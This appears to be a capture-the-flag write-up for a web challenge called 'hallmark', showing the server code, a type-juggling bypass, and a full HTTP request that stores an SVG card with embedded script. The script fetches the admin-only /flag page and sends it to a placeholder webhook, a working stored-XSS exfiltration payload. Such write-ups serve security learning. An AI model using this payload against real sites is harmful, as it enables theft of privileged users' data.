

# hallmark



First thought, it may be a client-side challenge.

Flag is in `/flag` where only the admin bot can access to.
```js
// index.js
// the admin bot will be able to access this
app.get("/flag", (req, res) => {
    if (req.cookies && req.cookies.secret === secret) {
        res.send(flag);
    } else {
        res.send("you can't view this >:(");
    }
});
```

The web application helped users to create cards with custom content or some default cards. The defaults are in `images/svg+xml` content type and custom cards are in `text/plain`. After cards creation we can share them with unique `id`.

According to [this](https://infosecwriteups.com/stored-xss-using-svg-file-2e3608248fae), we can trigger XSS with `image/svg+xml` file.

Besides, the web application allows users to modify information like content type, content, ... Therefore, I plan to change my custom card from `text/plain` to `images/svg+xml` to potentially exploit an XSS vulnerability.

```js
app.put("/card", (req, res) => {
    let { id, type, svg, content } = req.body;

    if (!id || !cards[id]){
        res.send("bad id");
        return;
    }

    cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;

    res.send("ok");
});
```

We can use type juggling to bypass. If `type` field is an array we can bypass this check,

So I will create a card (`id`: `89afe69c-a276-47e1-bbcd-e44fac3c8939`). And then send this request:

```http
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hallmark.web.actf.co/
Content-Type: application/x-www-form-urlencoded
Content-Length: 624
Origin: https://hallmark.web.actf.co
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document2
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

id=89afe69c-a276-47e1-bbcd-e44fac3c8939&type[]=image/svg%2bxml&svg=hehe&content=<%3fxml+version%3d"1.0"+standalone%3d"no"%3f>
<!DOCTYPE+svg+PUBLIC+"-//W3C//DTD+SVG+1.1//EN"+"http%3a//www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg+version%3d"1.1"+baseProfile%3d"full"+xmlns%3d"http%3a//www.w3.org/2000/svg">
++<polygon+id%3d"triangle"+points%3d"0,0+0,50+50,0"+fill%3d"%23009900"+stroke%3d"%23004400"/>
++<script+type%3d"text/javascript">
++++fetch('/flag').then(response+%3d>+response.text()).then(body%3d>{fetch("WEBOOK%3fa%3d"%2bbody)})+%3b
++</script>
</svg>
```

And then the flag will be sent to the webhook.